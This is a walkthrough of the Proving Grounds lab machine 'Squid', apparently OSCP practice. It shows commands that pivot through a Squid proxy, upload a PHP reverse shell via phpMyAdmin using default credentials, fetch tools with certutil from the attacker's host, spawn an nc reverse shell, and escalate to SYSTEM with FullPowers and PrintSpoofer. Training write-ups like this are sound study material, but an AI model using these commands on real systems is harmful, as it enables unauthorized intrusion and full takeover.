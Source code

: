 ```yaml
---
title: "Proving Grounds - Squid"
categories: [Proving Grounds, Easy]
tags: [Windows, Web, Squid, OSCP]
mermaid: true
image: ../assets/img/oscp/oscp.png
---
```


Squid was a challenging box that involved utilizing a Squid proxy to discover internal services, exploiting a phpMyAdmin file upload vulnerability to gain initial access, and then escalating privileges using Windows-specific techniques.

The process included using spose to identify internal services, leveraging the proxy to access a WampServer, and ultimately using FullPowers.exe and PrintSpoofer to gain SYSTEM access. 

This machine was a great way to practice working with proxy configurations and Windows privilege escalation.

# Diagram

```mermaid
graph TD
    A[Host Enumeration]
    A -->|Nmap Scan| B[Identify Squid Proxy]
    B -->|Explore Proxy Configuration| C[Tool: spose]
    C -->|Identify Internal Services| D[Web Service on 8080]
    D -->|Access WampServer| E[Identify phpMyAdmin]
    E -->|Bypass Authentication| F[Upload PHP Shell]
    F -->|Execute Reverse Shell| G[WinPEAS Enumeration]
    G -->|Identify Privilege Escalation| H[Leverage FullPowers.exe]
    H -->|Enable SeImpersonatePrivilege| I[Use PrintSpoofer]
    I -->|Privilege Escalation to SYSTEM| J[Obtain Root Access]
    J -->|Capture Evidence| K[Success]
```


## Information Gathering

### Port Scan
---

- `nmap -sS -Pn -n -T4 192.168.217.189` -p 135,139,445,3128
    
    ![Untitled](../assets/img/oscp/Squid/Untitled.png)
    
- `nmap -sVC -p 135,139,445,3128 -n -Pn 192.168.217.189 -v`
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%201.png)
    

## Enumeration


### HTTP 80

---

- [http://192.168.217.189:3128/](http://192.168.217.189:3128/) → Apparently the website uses **squid/4.14**
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%202.png)
    

Squid is a caching and forwarding HTTP web proxy. It reduces bandwidth and improves response times by **caching** and reusing frequently-requested web pages. 

This is the squid repo https://github.com/squid-cache/squid 

I was searching in the GitHub, etc., but nothing worked. So i decided to try this: 

[https://book.hacktricks.xyz/network-services-pentesting/3128-pentesting-squid](https://book.hacktricks.xyz/network-services-pentesting/3128-pentesting-squid)

- `curl --proxy http://192.168.217.189:3128 http://192.168.45.227` →  *Directory Listening in my own machine*
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%203.png)
    

So after a while i decided to try this tool https://github.com/aancw/spose.git 

- `python spose.py --proxy http://192.168.45.227:3128 --target 192.168.45.227`
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%204.png)
    

Ok, verifying if it’s an web page running in 8080

- `curl --proxy http://192.168.217.189:3128 http://192.168.217.189:8080`
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%205.png)
    

Now setting up an http proxy with the extension Proxy Switcher [https://chrome.google.com/webstore/detail/proxy-switcher-and-manage/onnfghpihccifgojkpnnncpagjcdbjod?ref=benheater.com](https://chrome.google.com/webstore/detail/proxy-switcher-and-manage/onnfghpihccifgojkpnnncpagjcdbjod?ref=benheater.com) 

- `proxy swithcer`
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%206.png)
    

And now trying to access it

- [http://192.168.237.189:8080/](http://192.168.237.189:8080/) → It’s a WampServer 3.2.3 - 64bit
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%207.png)
    
- [http://192.168.237.189:8080/phpsysinfo/index.php?disp=bootstrap](http://192.168.237.189:8080/phpsysinfo/index.php?disp=bootstrap)
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%208.png)
    
- [http://192.168.237.189:8080/phpmyadmin/index.php](http://192.168.237.189:8080/phpmyadmin/index.php) → login panel MySQL - tried default creds (root:)
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%209.png)
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%2010.png)
    

Verifying some documentation about phpMyAdmin...

[https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/](https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/) 

[https://gist.github.com/BababaBlue/71d85a7182993f6b4728c5d6a77e669f](https://gist.github.com/BababaBlue/71d85a7182993f6b4728c5d6a77e669f) 

- [http://192.168.237.189:8080/phpmyadmin/db_sql.php?db=hendrich_schema](http://192.168.237.189:8080/phpmyadmin/db_sql.php?db=hendrich_schema)
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%2011.png)
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%2012.png)
    
- [http://192.168.237.189:8080/uploader.php](http://192.168.237.189:8080/uploader.php)
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%2013.png)
    

Reverse shell must be for windows

[https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php)

- [http://192.168.237.189:8080/php_reverse_shell.php](http://192.168.237.189:8080/php_reverse_shell.php)
- `sudo  rlwrap nc -lvnp 80` → Nt authorithy
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%2014.png)
    

- `flag`
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%2015.png)
    

## Priv Escalation

---

The first thing that i want to do is revoke all firewalls. I’ve tried but the user don’t have permission.

So after a while i decided to put winPEAS inside the machine

- `certutil.exe -urlcache -f http://192.168.45.227/winPEASx64.exe winPEASx64.exe`
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%2016.png)
    
- `winPEASx64.exe` → *Apparently* [https://exploit-db.com/exploits/46718](https://exploit-db.com/exploits/46718) *- CVE-2019-0836* [https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/leaked-handle-exploitation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/leaked-handle-exploitation)
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%2017.png)
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%2018.png)
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%2019.png)
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%2020.png)
    

Ok, nothing worked, but after enumerate, and after i saw that i was an nt authority but with “local service’

- `whoami`
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%2021.png)
    

I found this [https://itm4n.github.io/localservice-privileges/?ref=benheater.com](https://itm4n.github.io/localservice-privileges/?ref=benheater.com) After read the article i found that he did an script [https://github.com/itm4n/FullPowers/releases](https://github.com/itm4n/FullPowers/releases)

- `certutil.exe -urlcache -f http://192.168.45.227/FullPowers.exe FullPowers.exe`
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%2022.png)
    
- `FullPowers.exe -c "C:\Users\Public\Documents\nc.exe 192.168.45.227 4430 -e cmd" -z`
`sudo rlwrap nc -lvnp 4430`
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%2023.png)
    

- `whoami /priv` → Now i’ve SeImpersoantePrivilage enabled
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%2024.png)
    

So i’ll use the https://github.com/itm4n/PrintSpoofer/releases

- `certutil.exe -urlcache -f http://192.168.45.227/PrintSpoofer64.exe PrintSpoofer64.exe`
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%2025.png)
    

- `PrintSpoofer64.exe -i -c cmd` → Priv escalado
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%2026.png)
    

- `flag`
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%2027.png)